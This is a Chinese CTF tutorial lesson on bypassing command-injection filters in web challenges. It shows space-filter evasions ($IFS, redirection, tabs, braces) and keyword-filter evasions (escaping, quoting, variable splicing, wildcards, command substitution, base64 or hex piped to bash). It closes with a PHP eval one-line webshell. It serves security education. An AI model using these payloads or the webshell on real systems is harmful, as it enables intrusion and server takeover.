









# CTF入门教程：P74：CTF-web Bypass 🚀



在本节课中，我们将学习CTF-Web题目中常见的过滤绕过技术。前面我们介绍的命令执行方法较为基础，但在实际比赛中，出题人通常会设置各种过滤规则来增加难度。本节将重点讲解当**空格**和**关键字**被过滤时，如何巧妙地执行命令，例如 `cat flag`。





---



## 空格过滤绕过 🔧

上一节我们介绍了基础的命令执行，本节中我们来看看当空格被过滤时，有哪些替代方案。核心思路是使用其他字符或变量来替代命令中的空格。

以下是几种绕过空格过滤的方法：

1.  **使用 `$IFS` 变量**
    在Linux中，`$IFS`（Internal Field Separator）是一个环境变量，默认值为空格、制表符和换行符。我们可以用它来替代空格。
    ```bash
    cat${IFS}flag.php
    cat$IFS$9flag.php  # $9是一个空参数，用于分隔
    cat${IFS}flag.php
    ```

2.  **使用重定向符 `<`**
    利用输入重定向符 `<` 可以将文件内容传递给命令，从而绕过空格。
    ```bash
    cat<flag.php
    ```

3.  **使用制表符 `%09`**
    在URL编码中，`%09` 代表制表符（Tab），在某些上下文中可以替代空格。
    ```bash
    cat%09flag.php
    ```



4.  **使用花括号 `{}`**
    在某些Shell环境中，花括号内的命令连接可以省略空格。
    ```bash
    {cat,flag.php}
    ```

---

## 关键字过滤绕过 🛡️

解决了空格问题后，我们来看看如何绕过对特定关键字（如 `cat`、`flag`）的过滤。核心思路是**拆分、重组、编码或使用通配符**来隐藏原始关键字。



以下是几种绕过关键字过滤的方法：

1.  **使用反斜杠转义**
    在关键字中插入反斜杠，虽然不改变命令含义，但可能绕过简单的字符串匹配过滤。
    ```bash
    ca\t fl\ag.php
    ```

2.  **使用单引号或双引号分割**
    将关键字用引号分割，再拼接起来。
    ```bash
    ca"t" fl"ag".php
    cat fl'a'g.php
    ```

3.  **利用变量拼接**
    将关键字拆分成多个部分，赋值给变量，然后拼接执行。
    ```bash
    a=fl;b=ag; cat $a$b.php
    ```

4.  **使用通配符匹配**
    利用 `*`（匹配任意字符）和 `?`（匹配单个字符）等通配符来匹配被过滤的文件名。
    ```bash
    cat fla*
    cat fl?g.php
    cat fl[a-z]g.php
    ```

5.  **使用内联执行**
    通过反引号 `` ` `` 或 `$()` 先执行一个命令，将其输出结果作为另一个命令的参数。
    ```bash
    cat `ls | grep flag`
    cat $(ls | grep flag)
    ```



6.  **编码绕过**
    对命令进行Base64或Hex编码，然后在执行时解码。
    ```bash
    # Base64编码
    echo 'Y2F0IGZsYWcucGhw' | base64 -d | bash
    # Hex编码
    echo '63617420666c61672e706870' | xxd -r -p | bash
    ```



---

## 实战练习与代码执行简介 🎯

综合运用上述绕过技术，可以尝试解决如 **“高血压CTF2019”** 等题目，其中就包含了空格和关键字的过滤。

接下来，我们简要过渡到另一个重要概念：**代码执行漏洞**。这与命令执行不同，它允许攻击者执行服务器端的编程语言代码（如PHP）。一个典型的例子是 `eval()` 函数，它会将传入的字符串当作PHP代码执行。这也是“一句话木马”的原理：
```php
<?php @eval($_POST['cmd']); ?>
```
这段代码中，`$_POST[‘cmd’]` 参数完全可控，并被 `eval()` 执行，从而为攻击者提供了强大的控制能力。理解这一点，是深入Web安全的关键。

---



本节课中我们一起学习了CTF-Web中绕过过滤的核心技巧，包括使用特殊变量、符号、编码和拼接来应对空格与关键字过滤，并初步了解了代码执行漏洞的原理。掌握这些方法，将帮助你解决更复杂的CTF挑战。